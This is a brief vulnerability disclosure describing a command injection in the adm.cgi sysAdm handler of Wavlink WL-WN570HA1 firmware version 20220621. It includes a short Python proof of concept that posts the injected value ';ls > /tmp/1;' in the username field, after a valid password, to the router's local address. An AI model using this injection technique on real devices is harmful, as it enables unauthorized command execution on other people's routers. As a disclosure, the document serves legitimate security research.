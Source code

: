 # command injection

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in adm.cgi/sysAdm

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](1.png)

get value from username

![](2.png)

if our password is correct, we can get into here, and pass the check of ';', cause command injection

## POC
```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1;' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'username': + payload, 'SYSPASS':'yours'})
``` 
